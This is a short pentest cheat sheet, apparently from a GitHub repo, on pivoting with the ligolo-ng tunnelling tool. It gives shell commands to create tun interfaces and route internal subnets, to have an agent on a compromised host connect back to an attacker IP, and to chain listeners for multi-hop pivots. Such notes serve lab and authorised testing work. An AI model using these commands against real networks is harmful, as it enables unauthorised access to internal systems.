 # Attacker


## setup network
```shell
# enter root mode
sudo su

# create interface
ip tuntap add user root mode tun ligolo
ip link set ligolo up

# every pivot need a new interface
ip tuntap add user root mode tun ligolo2
ip link set ligolo2 up


# create network to be routed on the interface created
ip route add 172.16.1.0/24 dev ligolo

# create ip to be routed
sudo ip route add 172.16.2.101 dev ligolo2

```

## ligolo proxy
```shell
# ligolo port is 11601 by default 
# from attacker : start proxy
./proxy -selfcert 

# from c2 : connect to your machine
./agent -connect 10.10.17.23:11601  -ignore-cert

# from attacker: select agent and start tunneling on a interface created
session 1
start --tun ligolo


# for pivot more than 1 hop you can select a session then listen on it 
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
listener_list

```


## ligolo agent reverse connect

[Bind](https://github.com/nicocha30/ligolo-ng/wiki/Bind)
